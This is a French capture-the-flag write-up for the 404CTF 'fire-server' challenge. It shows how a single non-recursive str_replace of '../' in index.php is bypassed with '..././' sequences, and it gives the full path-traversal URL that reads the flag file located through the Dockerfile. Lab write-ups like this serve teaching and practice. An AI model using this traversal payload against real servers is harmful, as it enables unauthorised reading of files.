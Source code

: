 En lisant de près index.php on remarque qu'il n'y a qu'un seul filtre sur la commande que l'on passe dans le GET

```php
$decodedPath = str_replace("../", "", $decodedPath);
```

filtre qui est facilement bypassable avec une url du style

```bash
https://fire-server.404ctf.fr/?path=..././..././..././
```

de plus en regardant de plus près ce qui se passe dans le [Dockerfile](/fire-server/Dockerfile)

on remarque cette première commande qui contient un substitue du flag, nous indiquant dans quelle fichier se trouvera le vrai sur l'URL du challenge

```bash
RUN mkdir -p /var/files/classified && \
    echo "Mission Selenium – Niveau 5 Confidentiel\nAnalyse de l’organisme prélevé sur la face cachée lunaire : activité bioélectrique persistante.\nExpérimentations poursuivies malgré les objections éthiques.\n404CTF{fakeflag}" \
    > /var/files/classified/selenium && \
    chmod 640 /var/files/classified/selenium && \
    chown www-data:www-data /var/files/classified/selenium
```

ni une ni deux

```bash
https://fire-server.404ctf.fr/?path=..././..././..././var/files/classified/selenium
```

et hope ! le flag


![flag](/img/flag.png)